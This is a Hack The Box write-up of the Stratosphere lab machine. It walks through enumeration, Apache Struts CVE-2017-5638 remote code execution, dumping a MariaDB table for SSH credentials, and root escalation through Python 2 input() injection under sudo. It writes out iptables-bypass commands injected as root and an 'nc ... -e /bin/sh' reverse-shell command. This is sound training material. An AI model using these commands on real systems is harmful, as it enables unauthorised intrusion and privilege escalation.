









# Hack The Box: Stratosphere machine write-up

The machine we are going to tackle today runs with ip 10.10.10.64. I also uploaded some results from tools as well as some notes I took along the way.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
Nmap scan report for 10.10.10.64
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
|_  256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Stratosphere
8080/tcp open  http-proxy
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Stratosphere
2 services unrecognized despite returning data.
```

Notice the machines has got activated ssh, which will be useful later.

So the first thing I do upon seeing this is connect to the server on port 80, and I find a website. However, there aren't any possible attack vectors, so I decide to enumerate directories with Dirb and DirBuster:

First of all, with Dirb I found out the path to the manager of the apache server:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue May 22 17:44:47 2018
URL_BASE: http://10.10.10.64/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.64/ ----
+ http://10.10.10.64/host-manager (CODE:302|SIZE:0)                            
+ http://10.10.10.64/index.html (CODE:200|SIZE:1708)                           
+ http://10.10.10.64/manager (CODE:302|SIZE:0)                                 

-----------------
END_TIME: Tue May 22 17:49:20 2018
DOWNLOADED: 4612 - FOUND: 3

```

However, it was of no use, as I didn't have any credentials to log in. That's when I fired up DirBuster, getting:

*DirBuster output*



Looks like */Monitoring/index.html* is interesting. Once we try to access it, we get redirected to another path, which has an extension I hadn't ever seen before: *.action*.

*Redirection page*



#### Vulnerability

After inspecting the possible vulnerabilities, I found none I knew, so I decided to google "action apache struts vulnerability" (I knew it was apache struts from the error log I got when trying to access the management console). I found that there was a known CVE (2017-5638) and even a Python script that would carry out the exploit (although it could be done with Burp). The vulnerability consisted in a misconfiguration with error which leads to arbitrary commands supplied in the Content-Type header.

*From https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638: The Jakarta Multipart parser in Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 has incorrect exception handling and error-message generation during file-upload attempts, which allows remote attackers to execute arbitrary commands via a crafted Content-Type, Content-Disposition, or Content-Length HTTP header, as exploited in the wild in March 2017 with a Content-Type header containing a #cmd= string.*

So I checked whether the machine was vulnerable and indeed it was!

*Check of vulnerability*



Even though that meant I had RCE, I was only tomcat8 and couldn't read many things. For instance, I couldn't access the directory of the user of the system, called Richard.

Keeping that in mind, I decided to check the files and came across db_connect, which had some credentials (for a database, I guessed seeing the name). The two pairs are found in notes.txt, one corresponds to admin and the other one to ssn_admin. Nothing else came out.

Then, I was advised to enumerate running services and found there was a local MariaDB service running locally. I used:

```sh
ss -lntu
service mysqld status
```

And that was when I thought about the credentials I had found earlier. Maybe there was a way to see what was inside the database. However, there was a problem: the service was not accessible, I couldn't simply log in and execute commands, they had to come from the command line.

After investigating possible mysql commands, I came across the following ones (I tried with both users but only admin was valid):

```sh
mysqldump --user=admin --password=admin --all-databases
```

Result:

```sh
mysqldump: Got error: 1044: "Access denied for user 'admin'@'localhost' to database 'users'" when using LOCK TABLES
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database:
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `users`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `users` /*!40100 DEFAULT CHARACTER SET utf8mb4 */;

USE `users`;
```

So seeing there was a 'users' table, I accessed it:

```sh
mysqldump --single-transaction --user=admin users --password=admin
```

```sh
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: users
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `fullName` varchar(45) DEFAULT NULL,
  `password` varchar(30) DEFAULT NULL,
  `username` varchar(20) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--

LOCK TABLES `accounts` WRITE;
/*!40000 ALTER TABLE `accounts` DISABLE KEYS */;
INSERT INTO `accounts` VALUES ('Richard F. Smith','9tc*rhKuG5TyXvUJOrE^5CK7k','richard');
/*!40000 ALTER TABLE `accounts` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2018-05-24  6:09:00
```

The most important line was ```('Richard F. Smith','9tc*rhKuG5TyXvUJOrE^5CK7k','richard')```, as it contained the credentials of the user richard. I used them to log in through ssh as richard and success!!

*Logging in as Richard*



#### Root

Getting to root was way more difficult than user, it got me to think a lot (quite unnecessarily). The first thing I noticed once I was Richard was a test.py file owned by root. It consisted of some hashes that had to be cracked in order to access some file inside the root directory called ```success.py```.

```py
#!/usr/bin/python3
import hashlib


def question():
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
    md5 = hashlib.md5()
    md5.update(q1.encode())
    if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb": #kaybboo! and use quotes "" in order to avoid EOL error
        print("Sorry, that's not right")
        return
    print("You got it!")
    q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
    sha1 = hashlib.sha1()
    sha1.update(q2.encode())
    if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff': #ninjaabisshinobi
        print("Nope, that one didn't work...")
        return
    print("WOW, you're really good at this!")
    q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
    md4 = hashlib.new('md4')
    md4.update(q3.encode())
    if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9': #legend72
        print("Yeah, I don't think that's right.")
        return
    print("OK, OK! I get it. You know how to crack hashes...")
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943': # Fhero6610
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

I cracked the first ones easily (they are commented alongside their hash), but the last one turned out to be more difficult. It was an encryption I hadn't ever seen before, so I googled about it. It turned out it could be cracked with John The Ripper (http://www.openwall.com/lists/john-users/2013/01/02/2), so I tried to do a brute-force with the rockyou.txt wordlist:

*Cracking the last hash with JTR*



Once I had all the hashes, I tried to run the script as sudo (as with ```sudo -l``` I had obtained that user Richard could run the following commands without password: ```/usr/bin/python*``` and ```/home/richard/test.py```). However, it said success.py wasn't found. Hence, another approach was needed.

Again, I was hinted to look at python 2.7 vulnerabilities, and found one which concerned the input function, which was casually used in the script. It is based on the function ```input()```, which in python 2.x can be exploited thanks to the fact that it is the same as ```eval(raw_input())```. That means that we can execute arbitrary commands by passing them as arguments or supply a variable as an argument:

*Example of the vulnerability*



Therefore, the same exploit can be carried out thanks to the fact that we can run everything that has ```/usr/bin/python*``` (the asterisk is a wildcard in linux and means any string can go there, so we can execute ```/usr/bin/python[whatever]```) and that there is a python2.7 installed.

By piping the command as if it were our input, we get to be root and can finally read the hash.

*Attack*



#### Root shell?

There was one thing that was bothered me after I owned the system: I hadn't managed to get a root shell. I tried with some reverse shells
as input but my netcat listener kept still. That's why, after some failed attempts, I thought there could be some kind of firewall.

Checking with iptables, we can see there were some rules applied which could be affecting the connection.

*Iptables output (there was no need to import os, I just reused the command above)*



Thus, given that we can run commands as sudo, we can apply some rules ourselves in order to bypass the firewall for a specific IP. Upon getting the shell, it can be upgraded with python's tty in order to get a prompt (which I think is a bit nicer).

The commands used to apply the rules were:


```sh
echo '__import__("os").system("/sbin/iptables -A INPUT -p tcp -s 10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py

echo '__import__("os").system("/sbin/iptables -A OUTPUT -p tcp -d  10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py
```

Then, passing ```nc [ip] [port] -e /bin/sh``` as the argument to the test.py script I finally get my shell.

*Root shell*



---

Without doubt one of the coolest machines I've owned so far, it shows some real vulnerabilities and makes you learn that there are unexpected ways of achieving a goal (with the hashes, I mean).

*Diego Bernal Adelantado*
